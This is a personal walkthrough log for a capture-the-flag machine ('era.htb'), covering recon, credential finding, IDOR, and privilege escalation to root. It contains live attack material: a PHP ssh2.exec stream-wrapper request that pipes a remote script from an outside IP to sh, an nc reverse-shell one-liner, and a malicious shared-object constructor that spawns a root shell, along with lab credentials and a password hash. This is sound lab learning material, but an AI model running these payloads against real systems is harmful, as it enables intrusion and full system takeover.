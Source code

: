 ___




nginx 1.18.0 old version on port 80

vsftpd on port 21 need creds -> maybe hydra??



found subdomain -> file.


I logged in with test:test on the first try like no fucking way

*login pass*
test:test

*things to try*
-could try to access another account
-?id=FUZZ: fuzz those user input parameters
-fuzz dirs more try to find file, even though /file/ i get access denied <- no results here
-run dirsearch with cookies <- nothing new
-try the test user on vsftpd <-files here <- running hydra so far nothing
-try anon login on vsftpd <- no results here
-try to come up with users from era.htb




*need to find a way to run that .php rev shell*



fuzzed /downloads.php?id=FUZZ

got 2 zip files a username, a key

try to log in with vsftpd



*these 2 passes so far* 
america          (?)
mustang          (?)


*got creds*

*for vsftpd*
yuri:mustang

*for website*
eric:america
yuri:mustang



*things to try*
can I access other things on the website with either yuri or eric??? -> doesn't seem so
I can only read from ftp, is there anything interesting on that /build?? doesnt' look like it 
what abt that private key from yuri wtf is that for
-maybe reset or manage files check what the post req is <- doesn't seem I can do som



*these look like the answer for the security login*
1|admin_ef01cab31aa|$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC|600|Maria|Oliver|Ottawa



sqlite> pragma table_info("users")
   ...> ;
0|user_id|INTEGER|0||1
1|user_name|varchar(255)|1||0
2|user_password|varchar(255)|1||0
3|auto_delete_files_after|INT|1||0
4|security_answer1|varchar(255)|0||0
5|security_answer2|varchar(255)|0||0
6|security_answer3|varchar(255)|0||0



*they didnt' work but logged in as another user u can change them and then log in as admin*



*can log in as admin now what???* -< I see those same 2 files


*register.php file in using query() method for sql

![[Pasted image 20250803200854.png]]



query is insecure -> prepare() should be used as it makes parameterized queries that are not vulnerable to sql injection



so essentially that form is vulnerable to sql injection if I can bypass the user input filters


https://bugbase.ai/blog/top-10-exploits-in-php-applications-and-how-to-exploit-them



## Insecure Direct Object References (IDOR)

when i fuzzed the ?id=FUZZ and found file would b IDOR ptty sure



*php stream wrapper*

ssh2.exec://eric:america@127.0.0.1/curl+-s+http://10.10.14.20:9999/cool.sh+|+sh


*full format then got shell*
GET /download.php?id=150&dl=false&show=true&format=ssh2.exec://eric:america@127.0.0.1/curl+-s+http://10.10.14.20:9999/cool.sh|sh;+


*shell from revshells*
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.20 8888 >/tmp/f



*the file in /opt/AV/monitor runs as root can do a shared object injection*

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void func() __attribute__ ((constructor));

static void func() {
   setuid(0); // 0 uid is for root
   system("nc -e /bin/bash 10.10.14.20 7777");
}

*compilation*
gcc -shared -fPIC -Wall -o /desired/path/to/library.so library.c
gcc -shared -fPIC -Wall -o ld-linux-x86-64.so.2 test.c



strace ./monitor 2>&1 | grep -iE 'open|access|no such file'





*dumped processes with pspy*


2025/08/05 05:42:01 CMD: UID=0    PID=111919 | bash -c echo > /opt/AV/periodic-checks/status.log 
2025/08/05 05:42:01 CMD: UID=0    PID=111918 | /bin/sh -c bash -c 'echo > /opt/AV/periodic-checks/status.log' 
2025/08/05 05:42:01 CMD: UID=0    PID=111921 | bash -c /root/initiate_monitoring.sh 
2025/08/05 05:42:01 CMD: UID=0    PID=111920 | /bin/sh -c bash -c '/root/initiate_monitoring.sh' >> /opt/AV/periodic-checks/status.log 2>&1 
2025/08/05 05:42:01 CMD: UID=0    PID=111922 | objcopy --dump-section .text_sig=text_sig_section.bin /opt/AV/periodic-checks/monitor 
2025/08/05 05:42:01 CMD: UID=0    PID=111924 | openssl asn1parse -inform DER -in text_sig_section.bin 
2025/08/05 05:42:01 CMD: UID=0    PID=111923 | /bin/bash /root/initiate_monitoring.sh 
2025/08/05 05:42:01 CMD: UID=0    PID=111927 | grep -oP (?<=UTF8STRING        :)Era Inc. 
2025/08/05 05:42:01 CMD: UID=0    PID=111925 | /bin/bash /root/initiate_monitoring.sh 
2025/08/05 05:42:01 CMD: UID=0    PID=111930 | grep -oP (?<=IA5STRING         :)yurivich@era.com 
2025/08/05 05:42:01 CMD: UID=0    PID=111928 | /bin/bash /root/initiate_monitoring.sh 
2025/08/05 05:42:01 CMD: UID=0    PID=111931 | /opt/AV/periodic-checks/monitor 
2025/08/05 05:42:28 CMD: UID=0    PID=111938 | 



*I have the priv key and cert from earlier from yuri*




*I think this is it*

openssl smime -sign \
  -binary \
  -noattr \
  -nocerts \
  -in a.out \
  -signer cert.pem \
  -inkey key.pem \
  -outform DER \
  -out text_sig_section.bin


*then this*
objcopy --add-section .text_sig=text_sig_section.bin a.out monitor.wurk




*fucking finally worked got root*



